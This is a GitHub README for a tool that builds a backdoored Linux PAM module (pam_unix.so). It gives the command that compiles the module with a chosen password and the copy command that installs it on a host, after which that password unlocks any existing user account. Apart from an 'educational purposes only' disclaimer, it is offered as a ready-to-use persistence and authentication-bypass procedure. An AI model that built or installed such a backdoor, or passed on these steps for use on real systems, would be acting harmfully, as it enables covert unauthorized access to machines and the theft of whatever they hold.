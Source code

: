 # linux-pam-backdoor         
Linux PAM Backdoor           
                             
This script automates the creation of a backdoor for Linux-PAM (Pluggable Authentication Modules)

## Usage
To generate the backdoored pam_unix.so, just run:
```
./backdoor.sh -v 1.3.0 -p som3_s3cr4t_p455w0rd
```

You have to identify the PAM version installed on the system, to make sure the script will compile the right version. Otherwise you can break the whole system authentication.

After the execution of the script, the last step is to copy the generated pam_unix.so to the pam modules dir on the host. 

```
cp pam_unix.so /usr/lib/security/
```

That's all. 

After that, you can log-in to the system using an existing user, and the previously configured password.

Use this for educational purposes only.
I am not responsible for the damage you might cause.

## Dependencies 

Tested with ubuntu 20.04: 
* 1.1.8 and older: failed to compile
* 1.2.0: worked
* 1.3.0 to 1.4.0: worked

The following packages where used
```bash
apt install -y  autoconf automake autopoint bison bzip2 docbook-xml docbook-xsl flex gettext libaudit-dev libcrack2-dev libdb-dev libfl-dev libselinux1-dev libtool libcrypt-dev libxml2-utils make pkg-config sed w3m xsltproc xz-utils gcc
```

